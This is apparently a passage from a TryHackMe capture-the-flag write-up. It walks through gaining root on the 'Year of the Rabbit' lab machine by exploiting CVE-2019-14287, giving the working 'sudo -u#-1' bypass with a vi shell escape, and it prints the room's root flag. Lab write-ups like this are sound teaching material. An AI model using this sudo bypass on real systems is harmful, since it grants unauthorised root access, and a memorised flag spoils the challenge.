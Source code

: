 As you can see, we can run `/usr/bin/vi` on `/home/gwendoline/user.txt` which is owned by root, with sudo and no password as any user but `root`. We can spawn a shell using `vi`, but the problem is that we can't run vi as root to do so.

I checked the sudo version and started searching for the vulnerabilities of this version:

~~~
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
~~~

After searching for a little while, I found `CVE-2019-14287` which is explained [here](https://access.redhat.com/security/cve/cve-2019-14287):

"A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction."

Let's exploit it. Run the following command to run `vi` as `root`:

~~~
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
~~~

Now type the following and you'll get a shell as `root`:

~~~
:shell
~~~

As you can see, we are root now:

~~~
root@year-of-the-rabbit:/home/gwendoline# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Let's head to `/root` and read the root flag:

~~~
root@year-of-the-rabbit:/home/gwendoline# cd /root
root@year-of-the-rabbit:/root# ls
root.txt
root@year-of-the-rabbit:/root# cat root.txt 
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
~~~

Root flag: `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )